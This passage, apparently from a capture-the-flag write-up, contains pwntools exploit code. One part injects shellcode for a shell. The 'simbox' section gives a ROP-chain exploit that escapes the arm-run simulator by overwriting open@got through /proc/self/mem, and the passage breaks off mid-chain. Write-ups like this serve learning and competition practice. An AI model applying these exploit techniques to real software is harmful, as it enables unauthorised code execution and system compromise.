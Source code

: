 ```python
s.sendafter("code> ",payload)

payload = '\x90'*0x14+asm(shellcraft.sh())
s.send(payload)

s.interactive()
```

### simbox

In program simbox , the vulnerability is east to find.When parse the parm of url,just use a number of "list=1&list=2".And a stackoverflow will be triggered.Change the index of array,we can control the PC register and write our ROP chains.

Arm-run is the simluator of gdb.After read the diff and source code,we find that the function 'system' is can't be called and 'flag' can't appear in path.So we must use virtual machine escape.

In arm-run, it doesn't check if file path is '/proc/self/mem', so we could modify it to control the memory of arm-run.And then modify open@got to system.Just use open again, we will get a shell.

```python
from pwn import *

# s = process(["./arm-run","./simbox"])
s = remote("35.243.120.147","10007")
# s = process("qemu-arm -g 1234 ./simbox",shell=True)
# gdb.attach(s,"b SWIopen\nb *0x40d53d\nc")

url = 'http://127.0.0.1/?list=1'

def addParm(num):
    global url
    url += '&list='+str(num)

pop_r0 = 0x000135f0
pop_r4 = 0x00008c80
pop_r4_r5 = 0x000093a8
pop_r1_r2 = 0x00012908
system = 0xA0A8
open=0x9C74
read_ = 0x9950
puts = 0x8DCC
heapbase = 0x245a8
lseek = 0x12530
write_ = 0x9BA0
open_got = 0x567338
svc_pop_2 = 0x00009e60
for i in range(72):
    addParm(i)
addParm(79)
addParm(pop_r0)
addParm(0)
addParm(0)
addParm(pop_r1_r2)
addParm(2)
addParm(0)
addParm(pop_r0)
addParm(heapbase+0x700)
addParm(open)
addParm(10)
addParm(pop_r1_r2)
addParm(heapbase+0x740)
addParm(0)
addParm(svc_pop_2)
addParm(0)
```